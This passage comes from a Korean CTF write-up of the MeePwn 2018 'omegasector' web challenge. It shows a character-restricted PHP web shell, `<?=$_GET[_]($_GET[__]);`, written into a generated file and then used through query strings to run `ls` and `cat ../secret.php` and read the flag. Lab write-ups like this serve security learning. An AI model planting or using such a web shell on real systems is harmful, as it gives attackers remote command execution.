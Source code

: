 이 경우, 쿼리 스트링으로 `?a=ls` 혹은 `?a=cat flag` 등을 전달 해 준다면 해당 값이 `system` 함수의 인자로 들어가 내가 원하는 명령어를 실행할 수 있게 된다.
하지만 이 문제에서는 문자의 제한이 있으므로, 해당 코드를 특수문자로만 구현해야 한다.
고민하던 중, [여기](https://rawsec.ml/en/MeePwn-2018-write-up/#omegasector-web)에서 방법을 찾을 수 있었다.  

![](/images/CTF/MeePwn2018/omegasector/omega_14.PNG)

코드를 보기 좋게 정리하면 다음과 같다.  

![](/images/CTF/MeePwn2018/omegasector/omega_15.PNG)

![](/images/CTF/MeePwn2018/omegasector/omega_16.PNG)

결과적으로 위의 함수는 아래와 같다.  

```php
<?=$_GET[_]($_GET[__]);
```

따라서 해당 페이지에 접속한 후 `?_=system&__=ls`와 같이 인자를 넘겨 준다면, 결국 `system(ls)`가 되어 `ls` 명령어를 실행한다.
즉, 내가 원하는 명령어를 자유롭게 실행시킬 수 있게된다.
먼저 해당 문자열을 `message`에 적고, `type`은 `php`로 해 아래와 같이 파일을 생성 해 주었다.  

![](/images/CTF/MeePwn2018/omegasector/omega_17.PNG)

![](/images/CTF/MeePwn2018/omegasector/omega_18.PNG)

이 후 생성된 파일에 직접 접근하며, `?_=system&__=ls`를 쿼리스트링으로 넘겨주었다.  

![](/images/CTF/MeePwn2018/omegasector/omega_19.PNG)

그 결과, 아래와 같이 `ls` 명령어가 실행된 것을 확인할 수 있었다.  

![](/images/CTF/MeePwn2018/omegasector/omega_20.PNG)

현재 디렉토리인 `alien_message` 디렉토리에는 플래그로 보이는 값이 없어, 상위 디렉토리를 확인하기 위해 `?_=system&__=ls ../`를 쿼리스트링으로 넘겨주었다.
그 결과 아래와 같은 파일들을 확인할 수 있었다.  

```plain
alien_message
alien_sector.php
assets
human_message
index.php
omega_sector.php
secret.php
```

그 중 가장 의심스로운 `secret.php` 파일을 확인하기 위해 `?_=system&__=cat ../secret.php`를 넘겨주었다.
그 결과 이번에도 역시 주석에서 flag를 발견할 수 있었다.  

![](/images/CTF/MeePwn2018/omegasector/omega_21.PNG)

```plain
FLAG : MeePwnCTF{__133-221-333-123-111___}
```

